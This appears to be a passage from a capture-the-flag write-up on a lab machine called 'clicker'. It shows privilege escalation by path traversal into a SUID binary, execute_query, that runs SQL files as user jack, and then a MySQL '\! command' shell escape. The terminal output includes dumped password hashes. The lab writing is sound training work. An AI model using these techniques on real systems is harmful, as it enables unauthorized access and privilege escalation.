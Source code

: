 That means we can execute every file inside the MySQL command of the program. For example, we can create our own file:
```
www-data@clicker:/opt/manage$ ./execute_query 5 ../../../tmp/players      
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
select * from players
--------------

username        nickname        password        role    clicks  level
admin   admin   ec9407f758dbed2ac510cac18f67056de100b1890f5bd8027ee496cc250e3f82        Admin   999999999999999999      999999999
ButtonLover99   ButtonLover99   55d1d58e17361fe78a61a96847b0e0226a0bc1a4e38a7b167c10b5cf513ca81f        User    10000000        100
Paol    Paol    bff439c136463a07dac48e50b31a322a4538d1fac26bfb5fd3c48f57a17dabd3        User    2776354 75
Th3Br0  Th3Br0  3185684ff9fd84f65a6c3037c3214ff4ebdd0e205b6acea97136d23407940c01        User    87947322        1
www-data@clicker:/opt/manage$
```

Also the `execute_query` file has a SUID and GUID bit set for the user and group `jack`:
```
www-data@clicker:/opt/manage$ ls -al execute_query 
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 execute_query
www-data@clicker:/opt/manage$
```

So the commands are runned with the privileges of the user `jack`.

### Exploitation
Putting things together, we can execute any SQL code that we want in the context of the user `jack`. 

Inside MySQL we can also run CLI commands with the alias `! command`. For example we can create this file:
```
www-data@clicker:/opt/manage$ echo "\! ls -al /home/jack/" > /tmp/exploit                     
www-data@clicker:/opt/manage$ ./execute_query 5 ../../../tmp/exploit     
mysql: [Warning] Using a password on the command line interface can be insecure.
total 48
drwxr-x--- 7 jack jack 4096 Dec 11 19:19 .
drwxr-xr-x 3 root root 4096 Sep  5 19:19 ..
lrwxrwxrwx 1 root root    9 Sep  5 18:46 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 jack jack 3771 Jan  6  2022 .bashrc
drwx------ 2 jack jack 4096 Sep  5 19:19 .cache
drwx------ 3 jack jack 4096 Sep  5 19:19 .gnupg
drwxrwxr-x 3 jack jack 4096 Sep  5 19:19 .local
lrwxrwxrwx 1 root root    9 Aug 30 14:36 .mysql_history -> /dev/null
-rw-r--r-- 1 jack jack  839 Feb 27  2023 .profile
drwx------ 2 jack jack 4096 Sep  5 19:19 .ssh
-rw-r--r-- 1 jack jack    0 Dec 11 16:58 .sudo_as_admin_successful
-rw------- 1 jack jack  988 Dec 11 19:19 .viminfo
drwx------ 2 jack jack 4096 Sep  5 19:19 queries
-rw-r----- 1 root jack   33 Dec 11 02:05 user.txt
www-data@clicker:/opt/manage$
```
